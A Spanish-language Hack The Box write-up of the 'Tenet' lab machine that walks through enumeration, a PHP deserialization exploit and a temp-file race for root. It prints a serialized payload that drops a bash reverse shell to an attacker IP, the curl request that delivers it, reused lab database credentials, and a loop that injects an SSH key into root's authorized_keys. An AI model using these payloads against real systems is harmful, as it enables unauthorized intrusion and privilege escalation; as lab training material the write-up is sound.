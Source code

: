 ```yaml
---
layout: post
title:  "☢HTB☢ Tenet"
date:   2021-06-12 5:35:00 +0200
last_modified_at: 2021-06-12 5:35:00 +0200
toc:  true
tags: [ctf, linux, hackthebox, Writeup, deserializacion]
categories: Hackthebox
---
```


{: .message }

Es una excelente maquina para practicas la deserializacion en PHP

## Enumeración 
### Nmap
* 22/tcp OpenSSH 7.6p1
* 80/tcp Apache httpd 2.4.29

```

```bash
nmap -sC -sV -p22,80 10.10.10.223 -oN Scan_port1                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:33 EDT
Nmap scan report for 10.10.10.223
Host is up (0.060s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

## Web Enumeration
Tips rapido de enumeracion siempre ver a que nos enfrentamos:
```bash
whatweb  10.10.10.223                                                             
http://10.10.10.223 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

### Fuzz
* /users.txt
* /wordpress/wp-login.php

```bash
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Target: http://10.10.10.223/

[18:55:50] Starting: 
[18:58:30] 200 -    7B  - /users.txt
[18:58:36] 200 -    6KB - /wordpress/wp-login.php
```

### Tenet Wordpress
![](/images_blog/img_tenet/Pastedimage20210502200252.png)
![Pastedimage20210502200252](https://user-images.githubusercontent.com/76759292/127757805-5d1395c6-eae9-4dfd-85c1-0e482dd3f039.png)


Subdominio:
* sator.tenet.htb

### Tenet.htb
![](/images_blog/img_tenet/Pastedimage20210502180600.png)
![Pastedimage20210502180600](https://user-images.githubusercontent.com/76759292/127757807-1ab06b16-8ec1-477a-b3e2-258c8507d8ad.png)


## Off topic
* /xmlrpc.php

Aunque no tiene que ver me parece interesante la manera de explotacion que tiene esto [aqui]((https://www.securityfocus.com/bid/14088/exploit))


## PHP deserialization

[Lee](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

Aqui esta el otro:
* Sator.php.bak

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Esto nos sirve para saber por donde debemos tirar, entonces viendo como se mueve todo me di cuenta de que podria ser deserializacion y me encontre con el blog que puse al principio.

Luego con la php interactive podemos crear lo que queremos que el programa nos haga:

```php
php -a           
Interactive mode enabled

php > class DatabaseExport {
php {   public $user_file = 'rce.php';
php {   public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.101/4444 0>&1\'"); ?>';
php {   }
php > 
php > print urlencode(serialize(new DatabaseExport));
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Para que esto funcione hacemos esto, vemos que utiliza  ```arepo```
```
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

Entonces la data serializada que generamos la colocamos aqui:
```
curl -i http://sator.tenet.htb/sator.php\?arepo\=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Luego visitamos ```http://sator.tenet.htb/rce.php``` 


## PrivEsc
```bash
/** MySQL database username */                                                                                         
define( 'DB_USER', 'neil' );                                                                                           
                                                                                                                       
/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'Opera2112' );     
```

Estas claves puedo entrar por ssh.

[mktemp](https://kbmwkaaxveg73o3q7ydl7zxf2a-adv7ofecxzh2qqi-superuser-com.translate.goog/questions/834277/what-should-i-worry-about-when-using-mktemp-dry-run) vemos que podemos ejecutar un script como root lo analizo y me llama esta parte:
```bash
addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName
}
```

Si nos fijamos en la parte del mktemp -u podemos ver que el script escribe la clave publica que se encuentra en la variable key la copia en un archivo

```bash
while true; do echo "ssh-rsa XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" | tee /tmp/ssh* > /dev/null; done
```

Conjuntamente ejecutamos el script varias veces y listo.

MACHINE PWNED!!!!
